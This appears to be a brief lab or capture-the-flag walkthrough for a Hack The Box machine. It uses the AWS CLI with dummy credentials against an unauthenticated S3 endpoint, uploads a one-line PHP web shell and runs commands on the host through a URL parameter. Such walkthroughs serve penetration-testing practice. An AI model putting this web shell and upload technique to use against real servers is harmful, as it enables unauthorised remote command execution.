 # AWS



## S3

We can interact with this S3 bucket with the aid of the 
command `apt install awscli`

First, we need to configure it using `aws configure`
We will be using an arbitrary value for all the fields, as sometimes the server is configured to not check authentication (still, it must be configured to something for aws to work).
```
AWS Access Key ID [None]: temp
AWS Secret Access Key [None]: temp
Default region name [None]: temp
Default output format [None]: temp
```





We can list all of the S3 buckets hosted by the server by using `ls`:
```
aws --endpoint=http://s3.thetoppers.htb s3 ls
```

We can also use the `ls` command to list objects and common prefixes under the specified bucket.
```
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

### Copy files to a remote bucket. Example with a `php` payload:
```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
 
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

We can confirm that our shell is uploaded by navigating to http://thetoppers.htb/shell.php. Let us try executing the OS command `id` using the URL parameter `cmd`:
```
http://thetoppers.htb/shell.php?cmd=id
``` 






